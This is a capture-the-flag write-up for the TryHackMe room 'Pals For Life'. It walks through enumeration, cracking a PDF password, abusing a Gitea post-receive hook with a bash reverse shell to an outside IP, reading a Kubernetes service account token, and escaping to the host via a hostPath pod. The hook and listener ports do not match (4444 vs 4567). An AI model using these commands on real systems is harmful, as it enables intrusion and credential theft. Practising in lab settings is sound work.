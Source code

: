 # Pals For Life

This is my writeup for the TryHackMe room [Pals For Life](https://tryhackme.com/room/palsforlife) created by [ttauveron](https://tryhackme.com/p/ttauveron).

![image](https://user-images.githubusercontent.com/86648102/134854878-900bff84-6396-4adf-a4dc-4bc04a99152c.png)

---

## Task 1 Deploy the VM


Please allow 5 minutes for the machine to fully boot up.

> Answer: No answer needed


## Task 2 Compromise the machine



**Answer the questions below**

### Flag 1

`export ip=10.10.219.14`

`ping $ip`

- Get machine IP and check the connectivity:

![image](https://user-images.githubusercontent.com/86648102/134903424-aebdd489-9e4f-4471-b155-6eeade692bc6.png)
- Scanning and Enumeration:
`sudo nmap -sC -sV -v -oN PalsForLifenmapscan.txt $ip -p- -Pn`

Open ports:
- 22 ssh
- 6443 ssl/sun-sr-https? Kubernetes
- 10250 Golang net/http server
- 30180 nginx
- 31111 Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go
- 31112 OpenSSH

---
- For now, we leave the SSH ports alone. The most interesting, in my oppinion is the Gitea 31111 port.

![image](https://user-images.githubusercontent.com/86648102/134904400-5e3ce142-048b-43c0-a60f-170e9f45d32a.png)

- Let's explore the website. Under **Explore** > **Users** we manage to find the following:
![image](https://user-images.githubusercontent.com/86648102/134904776-cd8e3428-448e-430e-8c58-e69f489facbb.png)

We have a user: leeroy.

---

- I tried scanning the other ports with Gobuster, to see if other pages are around there. The 30180 returned something interesting!

`sudo gobuster dir -u http://$ip:30180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee palsforlifegobuster.txt`

![image](https://user-images.githubusercontent.com/86648102/134906394-ffd3def6-6fee-48b8-a87f-9e332c3d506a.png)

http://machineip:30180/team 

![image](https://user-images.githubusercontent.com/86648102/134906568-0b0dbb54-8df7-4aaf-8e81-770fda5571bf.png)

Someone seems to like World Of Warcraft a lot :)

Nothing special on the page, except the video. However, when inspecting the page:

![image](https://user-images.githubusercontent.com/86648102/134906809-ee1d0239-2d66-439e-bae9-10185e572e1c.png)


Someone forgot an "uninteresting" file around. Let's put the code in a text file and see what we can do.

![image](https://user-images.githubusercontent.com/86648102/134907151-805d81e9-74a1-4bde-98b0-c2631dfeaf8e.png)

What if we decode it with base64?

`cat contentfromsite | base64 --decode > uninteresting_file.pdf`

![image](https://user-images.githubusercontent.com/86648102/134907464-9d8b6ac1-0d8f-45ea-8f61-563b952a27c1.png)


Apparently it's password protected. We will use **John The Ripper** for this one.

`/usr/share/john/pdf2john.pl uninteresting_file.pdf > pdfhash.txt`

The format to be used will be shown with this command:

`john --list=formats | grep -i pdf`

And to crack the password of the file:

`john --format=PDF --wordlist=/usr/share/wordlists/rockyou.txt pdfhash.txt`

`john --show pdfhash.txt`

**It worked!**

![image](https://user-images.githubusercontent.com/86648102/134908157-99295585-44ac-477e-9df5-f645867be2bb.png)

Apply the password to the PDF file. Apparently, within there's a text that might look like a password...back to the Gitea, maybe **leeroy** with this password will work.

![image](https://user-images.githubusercontent.com/86648102/134908865-171c7bc2-5dc8-4f62-adb3-2076da70b2e0.png)

We are in!

- Found a "secret" field under the Webhooks ( Repository > Settings > Webhooks )
Right click to inspect the field and..you get the first flag.

![image](https://user-images.githubusercontent.com/86648102/134909821-2a88084b-8fac-45a5-a87b-e0c457dbe74c.png)

---
### Flag 2
---

Githooks abuse.

![image](https://user-images.githubusercontent.com/86648102/134910069-93f8b126-1a15-4f17-9a03-aaf134cb341f.png)

Edit the "post-receive" hook and add the following content:

`#!/bin/bash
bash -i >& /dev/tcp/10.8.174.98/4444 0>&1`

![image](https://user-images.githubusercontent.com/86648102/134910323-c2859f53-3897-449b-ab14-f31e75317abb.png)


Also, open a netcat listener on port 4567.

`sudo nc -nvlp 4567`

![image](https://user-images.githubusercontent.com/86648102/134913265-87d883c4-11b5-4db8-acfe-f309bba16147.png)

We need to do some sort of action, for the hook to activate the reverse shell. Creating a new file, will do just fine:

![image](https://user-images.githubusercontent.com/86648102/134913438-3e4cd6b8-a7ac-4ae8-a3de-1f2ddd0b46c2.png)

We got the shell.

![image](https://user-images.githubusercontent.com/86648102/134913596-3b2ebc47-d1c3-44c8-8b37-f0395568bc6a.png)

By searching for flag files, we get the 2nd flag:

`find / -type f -iname flag2* 2>/dev/null`

![image](https://user-images.githubusercontent.com/86648102/134913989-f240b007-1c98-419f-823e-e2ecfca0c505.png)


---
### Flag 3
---

As the hint says "kubectl", this one is about Kubernetes (Port 6443)

- Service Account Token

> By default, the containers in the Kubernetes cluster will hold service account token within their file system. If an attacker could find that token, he/she can use it to move laterally or depending the privilege of the service account, one can escalate its privilege to further compromise the cluster environment

`cat /var/run/secrets/kubernetes.io/serviceaccount/token`

> Output the token to a text file for later usage.

- Usage of it:

`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 auth can-i --list`

Apparently, we can do anything with it.

![image](https://user-images.githubusercontent.com/86648102/134915608-1fc9f376-8b15-4615-a423-4d2c2007f73c.png)

As, we have the permissions, let's check the secret resources:

`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 -n kube-system get secret flag3 -o json | jq -r '.data | map_values(@base64d)'`


![image](https://user-images.githubusercontent.com/86648102/134916020-e9f9230e-c70d-4c47-8fa8-65013b5d6ec0.png)


---
### Flag 4
---


We will create a new pod and abuse this.
Create a **host.yaml**

```
apiVersion: v1
kind: Pod
metadata:
  name: host
spec:
  containers:
  - image: docker.io/library/nginx@sha256:6d75c99af15565a301e48297fa2d121e15d80ad526f8369c526324f0f7ccb750
    name: host
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    volumeMounts:
    - mountPath: /host
      name: host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

And then run the following command:
  
`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 -n default apply -f host.yaml`
  
`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 -n default exec -it host bash`

And with this, we are in as root:

`find / -type f -iname *root.txt* 2>/dev/null`

![image](https://user-images.githubusercontent.com/86648102/134922788-74a8e64e-266a-469a-9054-0f22f2dc7b03.png)

Last flag is here.

Congrats for making it so far. Contact me in case of further explanations are needed!

